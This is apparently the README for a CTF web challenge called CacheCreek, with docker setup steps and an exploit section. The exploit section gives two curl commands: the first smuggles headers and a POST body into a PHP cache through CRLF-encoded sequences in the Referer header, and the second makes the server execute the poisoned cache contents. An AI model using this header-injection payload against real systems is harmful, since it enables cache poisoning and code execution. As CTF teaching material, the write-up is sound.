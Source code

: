 CacheCreek
---------

I wrote a new cache mechanism, it is pretty cool, can you please review it for me?

# Question Text

```
It is all in the challenge.

http://ctf.pwn.sg:8181
```

*Creator - quanyang (@quanyang)*

# Setup Guide

0. Install docker on the hosting system
1. Replace the flag in distribute/flag
2. Build the docker image with: `sh dockerbuild.sh`
3. Replace the port 1500 with your desired port in dockerrun.sh
4. Start the docker image: `sh dockerrun.sh`
5. Test the connectivity with netcat.

# Exploit Details

curl http://localhost:8181/cache.php\?test\=21422 -H 'Referer: example.com/index.php%0D%0AContent-Length%3A+90%0D%0AContent-Type: application/x-www-form-urlencoded%0D%0A%0D%0Aview=test&' -iv -H 'cookie: PHPSESSID=debugtest3;'

to perform cache poisoning

then 

curl http://localhost:8181/cache.php\?report\=debug -H 'Referer: example.com/index.php' -iv -H 'cookie: PHPSESSID=test3;'

to use the cache and execute the contents from the cache.